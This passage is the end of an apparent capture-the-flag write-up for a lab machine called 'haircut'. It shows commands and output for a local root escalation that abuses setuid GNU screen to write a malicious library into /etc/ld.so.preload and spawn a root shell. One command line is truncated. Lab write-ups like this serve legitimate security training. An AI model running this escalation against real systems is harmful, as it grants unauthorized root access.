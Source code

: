 ```text
```

Now we can try to escalate, first run screen:

```test
www-data@haircut:/tmp$ cd /etc
www-data@haircut:/etc$ umask 000
<en -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"

www-data@haircut:/etc$ screen -ls # screen itself is setuid, so...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-www-data.
```

## Root Flag

Ignore the error and run our exploit:

```text
www-data@haircut:/etc$ /tmp/rootshell
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

It worked, just need to get our flag:

```text
# cat /root/root.txt
<<HIDDEN>>
```

All done. See you next time.
